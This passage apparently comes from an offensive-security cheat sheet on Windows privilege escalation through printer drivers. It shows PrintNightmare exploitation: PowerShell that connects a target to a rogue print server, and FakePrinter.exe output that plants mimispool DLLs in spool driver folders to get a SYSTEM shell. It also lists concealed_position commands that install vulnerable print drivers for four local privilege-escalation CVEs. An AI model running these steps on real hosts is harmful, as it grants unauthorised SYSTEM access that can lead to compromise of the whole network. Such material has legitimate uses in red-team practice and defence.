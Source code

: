 Execute the driver

```ps1
$serverName  = 'dc.purple.lab'
$printerName = 'Universal Priv Printer'
$fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName
```

### PrinterNightmare

```ps1
git clone https://github.com/Flangvik/DeployPrinterNightmare
PS C:\adversary> FakePrinter.exe 32mimispool.dll 64mimispool.dll EasySystemShell
[<3] @Flangvik - TrustedSec
[+] Copying C:\Windows\system32\mscms.dll to C:\Windows\system32\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 64mimispool.dll to C:\Windows\system32\spool\drivers\x64\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 32mimispool.dll to C:\Windows\system32\spool\drivers\W32X86\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Adding printer driver => Generic / Text Only!
[+] Adding printer => EasySystemShell!
[+] Setting 64-bit Registry key
[+] Setting 32-bit Registry key
[+] Setting '*' Registry key
```

```ps1
PS C:\target> $serverName  = 'printer-installed-host'
PS C:\target> $printerName = 'EasySystemShell'
PS C:\target> $fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
PS C:\target> Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
PS C:\target> Add-Printer -ConnectionName $fullprinterName
```

### Bring Your Own Vulnerability

Concealed Position : https://github.com/jacob-baines/concealed_position

* ACIDDAMAGE - [CVE-2021-35449](https://nvd.nist.gov/vuln/detail/CVE-2021-35449) - Lexmark Universal Print Driver LPE
* RADIANTDAMAGE - [CVE-2021-38085](https://nvd.nist.gov/vuln/detail/CVE-2021-38085) - Canon TR150 Print Driver LPE
* POISONDAMAGE - [CVE-2019-19363](https://nvd.nist.gov/vuln/detail/CVE-2019-19363) - Ricoh PCL6 Print Driver LPE
* SLASHINGDAMAGE - [CVE-2020-1300](https://nvd.nist.gov/vuln/detail/CVE-2020-1300) - Windows Print Spooler LPE

```powershell
cp_server.exe -e ACIDDAMAGE
# Get-Printer
# Set the "Advanced Sharing Settings" -> "Turn off password protected sharing"
cp_client.exe -r 10.0.0.9 -n ACIDDAMAGE -e ACIDDAMAGE
cp_client.exe -l -e ACIDDAMAGE
```
